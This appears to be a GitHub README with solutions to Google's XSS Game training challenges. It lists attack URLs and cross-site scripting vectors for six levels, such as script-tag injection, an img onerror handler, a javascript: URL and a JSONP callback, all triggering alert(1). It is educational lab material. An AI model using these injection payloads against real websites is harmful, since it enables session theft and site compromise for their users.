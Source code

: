 # Google XSS Game Challenge Solution
Below are the solutions to Google XSS challenges hosted on https://xss-game.appspot.com/

![alt text](https://github.com/akanshgulati/XSS-Challenges/raw/master/image1.png "Checklist")
 
### Level 1: Hello, world of XSS

#### Query
`https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>`

#### Vector
`<script>alert(1)</script>`
 
### Level 2: Persistence is key
 
#### Vector
`"><img src=x onerror=alert(1)>`
 
### Level 3: That sinking feeling...  

#### Query
`https://xss-game.appspot.com/level3/frame#'/><script>alert(1)</script>`

#### Vector
`'/><script>alert(1)</script>`
 
### Level 4: Context matters 
 
#### Query  
`https://xss-game.appspot.com/level4/frame?timer=1')%3Balert('1`
#### Vector 
`1')%3Balert('1`
 
#### Level 5: Breaking protocol 
 
#### Query 
`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`
#### Vector
`javascript:alert(1)`
 
### Follow the
 
#### Query
`https://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert`
#### Vector
`HTTPS://www.google.com/jsapi?callback=alert`

